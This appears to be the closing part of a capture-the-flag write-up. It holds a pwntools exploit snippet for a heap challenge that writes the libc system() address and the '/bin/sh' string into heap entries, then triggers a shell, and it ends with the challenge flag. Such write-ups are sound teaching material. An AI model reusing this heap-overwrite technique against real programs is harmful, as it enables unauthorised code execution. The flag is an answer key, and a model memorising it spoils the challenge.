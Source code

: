 ```python



set_grades(5, 0x10, [1 for i in range(0x11)])
set_grades(6, 0x10, [1 for i in range(0x11)])
set_grades(7, 0x10, [ord(i) for i in p64(libc.sym["system"])] + [0 for i in range(9)])


set_grades(8, 0x10, [ord(i) for i in p64(0x68732f6e69622f)] + [0 for i in range(9)])


p.sendlineafter(">", "2")
p.sendlineafter(")", "8")
p.sendlineafter("):", "32")

p.interactive()
```

Flag: `nactf{0n3_byt3_ch40s_l34d5_t0_h34p_c3rn4g3_PP0SvwNV44uwRSbm}`